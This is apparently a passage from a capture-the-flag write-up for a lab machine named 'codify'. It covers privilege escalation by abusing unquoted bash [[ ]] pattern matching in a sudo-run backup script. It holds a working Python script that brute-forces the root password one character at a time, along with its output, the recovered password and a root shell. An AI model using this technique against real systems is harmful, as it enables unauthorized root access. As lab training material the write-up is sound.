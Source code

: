 <br>

### Privilege Escalation

Reading https://mywiki.wooledge.org/BashPitfalls#A.5B_.24foo_.3D_.22bar.22_.5D, I understand that when using **[[**, if the right hand side of the conditional is not wrapped in quotes it will perform pattern matching when followed by *, not literal.
So we can try to brute force the password using python.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We get the password and login to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
joshua@codify:~$ python3 script.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3

joshua@codify:~$ su
Password: 
root@codify:/home/joshua# cd /root
root@codify:~# cat root.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~